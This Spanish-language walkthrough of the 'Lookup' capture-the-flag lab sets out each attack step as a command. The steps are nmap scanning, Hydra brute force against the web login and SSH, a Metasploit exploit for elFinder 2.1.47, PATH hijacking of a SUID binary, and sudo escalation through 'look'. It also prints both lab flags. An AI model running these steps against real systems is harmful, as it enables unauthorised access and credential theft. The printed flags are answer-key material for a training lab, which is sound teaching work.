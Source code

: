 # Walkthrough de LookUp

Binyamin
---

## 🌟 Versión con imágenes

Si prefieres ver esta resolución con imágenes explicativas, visita la versión en **Medium**:  
🔗 [Walkthrough de Lookup en Medium](https://medium.com/@chrstntapia/walkthrough-de-lookup-5ab9bfb8f54b)

## Paso 1: Análisis con nmap

```bash
nmap -sV -T5 -sS -Pn --min-rate 6000 -p- --open -oA $IP
```

### Resultados nmap

Resultados obtenidos del escaneo con nmap.

---

## Paso 2: Agregar dominio al archivo /etc/hosts

```bash
echo "$IP lookup.thm" >> /etc/hosts
```

Este paso simplifica la resolución de nombres y facilita la administración de red.

---

## Paso 3: Analizando el login

Credenciales probadas:

```text
username: prueba1
password: pass123
```

Se obtiene un mensaje de error "wrong username or password", lo que sugiere la necesidad de realizar un ataque de fuerza bruta.

---

## Paso 4: Uso de un script para encontrar usernames

Descarga y ejecución del script:

```bash
wget https://raw.githubusercontent.com/BinyaminT/THM/refs/heads/main/CTF/LookUp/username.py
python3 username.py /usr/share/wordlists/SecLists/Usernames/Names/
```

Se encuentran los usuarios: `admin` y `jose`.

---

## Paso 5: Uso de fuerza bruta con Hydra

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong password" -t 16
```

---

## Paso 6: Acceder a la página con credenciales encontradas

```text
username: jose
password: password123
```

Se obtiene un error debido a la falta del subdominio `files.lookup.thm`. Se soluciona con:

```bash
echo "$IP files.lookup.thm" >> /etc/hosts
```

---

## Paso 7: Identificación de vulnerabilidades

Se detecta el uso de `elFinder 2.1.47`. Buscamos un exploit en Metasploit:

```bash
msfconsole
search elFinder 2.1.47
```

Seleccionamos el exploit adecuado y configuramos Metasploit.

---

## Paso 8: Ejecución de Meterpreter y búsqueda de binarios SUID

```bash
shell
find / -perm /4000 2>/dev/null
```

Se encuentra un binario sospechoso: `pwm`.

---

## Paso 9: Explotación del binario pwm

Se detecta que `pwm` ejecuta `id` sin ruta absoluta, lo que permite un ataque de Path Hijacking.

Creamos un binario falso de `id`:

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /tmp/id
chmod +x /tmp/id
```

Modificamos la variable `$PATH`:

```bash
export PATH=/tmp:$PATH
```

---

## Paso 10: Obtener credenciales del usuario `think`

Se guardan en `limpio.txt` y se usa Hydra para obtener la contraseña de SSH:

```bash
hydra -l think -P limpio.txt ssh://IP_DEL_OBJETIVO -t 16
```

Accedemos al sistema vía SSH.

---

## Primera Flag

```text
38375fb4dd8baa2b2039ac03d92b820e
```

---

## Paso 11: Escalada de privilegios

Ejecutamos:

```bash
sudo -l
```

Se detecta que el binario `look` puede ejecutarse con sudo. Buscamos su explotación en GTFOBins:

[https://gtfobins.github.io/gtfobins/look/#sudo](https://gtfobins.github.io/gtfobins/look/#sudo)

Este binario nos permitió obtener la segunda flag, denominada root.txt, que generalmente se encuentra en `/root/root.txt`.

```text
Segunda Flag: 5a285a9f257e45c68bb6c9f9f57d18e8
```

Ahora es tu turno: ¡intenta conseguir acceso root con este binario! Quizás puedas leer el archivo `shadow` o encontrar otro servicio SSH disponible para explotar.

---

## Flag final

Obtenemos la flag de root y completamos el desafío.
